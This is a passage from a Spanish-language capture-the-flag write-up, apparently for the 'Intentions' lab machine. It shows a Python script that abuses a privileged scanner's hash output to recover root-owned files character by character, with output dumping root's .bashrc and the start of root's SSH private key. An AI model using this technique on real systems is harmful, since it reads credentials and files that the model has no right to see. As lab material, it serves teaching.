 ```python
      break
  return result

counter = 1
final = ""

while True:
  proc = os.popen(f"/opt/scanner/scanner -l {counter} -p -c /root/.bashrc -s asd").read()
  if proc == '': # If there's no output, the program crashed because the EOF has been surpassed
    break
  hash = proc.split(" ")[4].strip()
  char = thing(hash, final)
  final += char
  counter += 1

print(final)
```
{: file="scanner_bruteforce.py" }

> Es la primera vez que hago esto en el blog jaja
{: .prompt-info }

Ejecutando contra el fichero `.bashrc` nos devuelve el contenido en cuestión.

```bash
greg@intentions:/tmp$ python3 uwu.py
panic: runtime error: slice bounds out of range [:3108] with capacity 3107

goroutine 1 [running]:
main.loadFileHash({0x7ffef40cb834, 0xd}, 0xc24, 0x1)
	intentions/scanner/scanner.go:96 +0x1be
main.loadFileHashes({0x7ffef40cb834, 0xd}, {0x0, 0x0}, 0x4c3665?, 0x3b?)
	intentions/scanner/scanner.go:108 +0x7e
main.main()
	intentions/scanner/scanner.go:68 +0x3ac
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
[ -z "$PS1" ] && return
... [snip]
```

Probando a ver si root tiene una clave privada SSH, ¡nos la devuelve también!

```bash
greg@intentions:/tmp$ python3 uwu.py
panic: runtime error: slice bounds out of range [:2604] with capacity 2603

goroutine 1 [running]:
main.loadFileHash({0x7fff5b5a4830, 0x11}, 0xa2c, 0x1)
	intentions/scanner/scanner.go:96 +0x1be
main.loadFileHashes({0x7fff5b5a4830, 0x11}, {0x0, 0x0}, 0x4c3665?, 0x3b?)
	intentions/scanner/scanner.go:108 +0x7e
main.main()
	intentions/scanner/scanner.go:68 +0x3ac
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5yMuiPaWPr6P0GYiUi5EnqD8QOM9B7gm2lTHwlA7FMw95/wy8JW3
HqEMYrWSNpX2HqbvxnhOBCW/uwKMbFb4LPI+EzR6eHr5vG438EoeGmLFBvhge54WkTvQyd
vk6xqxjypi3PivKnI2Gm+BWzcMi6kHI+NLDUVn7aNthBIg9OyIVwp7LXl3cgUrWM4StvYZ
ZyGpITFR/1KjaCQjLDnshZO7OrM/PLWdyipq2yZtNoB57kvzbPRpXu7ANbM8wV3cyk/OZt
... [snip]
```
